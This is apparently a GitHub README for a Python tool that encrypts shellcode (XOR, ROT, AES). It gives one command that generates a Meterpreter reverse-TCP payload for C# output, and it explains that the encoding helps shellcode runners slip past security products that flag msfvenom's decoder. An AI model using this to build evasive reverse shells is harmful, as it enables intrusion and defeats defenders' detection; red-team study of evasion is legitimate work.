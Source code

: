# py-shellcodeEnc
tool to encrypt(xor,rot,aes) shellcode

USAGE:
```
python senc.py -p windows/meterpreter/reverse_tcp -lhost eth0 -lport 443 -e rot -k 254 -f csharp
```


TODO - print cssharp decrypt function.

That is mainly for:
msfvenom builtin decoder on encoded shellcode is usually a red flag for any security solution.

1 - using with a shellcode runner with decryption routine implemented.

2 - DEP with ROP decode and etc..
